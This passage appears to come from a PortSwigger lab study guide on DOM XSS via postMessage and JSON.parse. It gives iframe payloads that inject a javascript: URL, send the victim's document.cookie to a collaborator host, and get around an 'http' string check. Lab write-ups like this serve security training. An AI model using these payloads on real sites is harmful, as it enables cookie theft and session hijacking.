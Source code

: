>To exploit the above `source code`, inject JavaScript into the **JSON** data to change "load-channel" field data and steal document cookie.  
  
>Host an **iframe** on the exploit server html body, and send it to the victim, resulting in the stealing of their cookie. The victim cookie is send to the Burp collaboration server.  

```html
<iframe src=https://TARGET.net/ onload='this.contentWindow.postMessage(JSON.stringify({
    "type": "load-channel",
    "url": "JavaScript:document.location='https://OASTIFY.COM?c='+document.cookie"
}), "*");'>

```  

>At the end of the iframe onload values is a "*", this is to indicate the target is any.  
  
[PortSwigger Lab: DOM XSS using web messages and JSON.parse](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-json-parse)  

![DOM Invader identify web messages](images/dom-invader-identify-web-messages.png)  

>Replay the post message using DOM Invader after altering the JSON data.  

```JSON
{
    "type": "load-channel",
    "url": "JavaScript:document.location='https://OASTIFY.COM?c='+document.cookie"
}
```  

![DOM Invader resend web messages](images/dom-invader-resend-web-messages.png)  
  
[PortSwigger: Identify DOM XSS using PortSwigger DOM Invader](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/web-messages)  

### DOM XSS AddEventListener JavaScript URL  

>Reviewing the page `source code` we ***identify*** the ```addeventlistener``` call for a web message but there is an `if` condition checking if the string contains ```http/s```.  

![source-code-web-message-url.png](images/source-code-web-message-url.png)  

>The exploit server hosted payloads below include the ```https``` string, and are successful in bypassing the `if` condition check.

Try this one first in the Exploit Server to see if XSS works (string `http` appears commented otherwise the `if`does not execute)
```html
<iframe src="https://0a5b007003a98567843f3c1a004a0075.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```
> Now, try this one
```html
<iframe src="https://TARGET.net/" onload="this.contentWindow.postMessage('javascript:document.location=`https://OASTIFY.COM?c=`+document.cookie','*')">
```  
